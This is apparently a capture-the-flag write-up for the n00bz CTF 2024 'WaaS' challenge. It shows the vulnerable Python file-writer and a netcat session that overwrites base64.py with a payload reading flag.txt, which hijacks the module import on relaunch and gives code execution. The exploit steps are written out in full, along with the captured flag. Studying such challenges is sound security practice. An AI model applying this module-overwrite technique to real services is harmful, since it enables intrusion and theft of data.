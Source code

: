 ```yaml
---
title: WaaS
category: n00bz-CTF-2024
chall_description: 
points: 491
solves: 78
tags: web
date: 2024-08-04
comments: false
---
```


Writing as a Service! Author: NoobMaster + NoobHacker

---
# Code Analysis
```py
import subprocess
from base64 import b64decode as d
while True:
	print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
	try:
		inp = int(input("Choice: ").strip())
	except:
		print("Invalid input!")
		exit(0)
	if inp == 1:
		file = input("Enter file name: ").strip()
		assert file.count('.') <= 2 # Why do you need more?
		assert "/proc" not in file # Why do you need to write there?
		assert "/bin" not in file # Why do you need to write there? 
		assert "\n" not in file # Why do you need these?
		assert "chall" not in file # Don't be overwriting my files!
		try: 
			f = open(file,'w')
		except:
			print("Error! Maybe the file does not exist?")

		f.write(input("Data: ").strip())
		f.close()
		print("Data written sucessfully!")
		
	if inp == 2:
		flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
		print(flag.stdout.strip())
```
This python code allows you to write to a file, it seems that it can be in the current directory or a directory specified by the user. We can't write to the challenge file, but we can write to a file that will be imported by the challenge script.
# The Exploit
First, we specify base64.py as the file to write to, because when we relaunch the script base64.py will be imported at executed.
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: base64.py
```
Next, we'll write "print(open('flag.txt').read())" to the file. Since the code doesn't except newlines, this will have to do.
```
Data: print(open('flag.txt').read())
Data written sucessfully!
```
Afterwards, we exit:
```
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: ^C⏎
```
Then we will reconnect (which leads to the script being relaunched):
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_168720a41375}
```
Wow! That's a flag!⏎                                                                                               
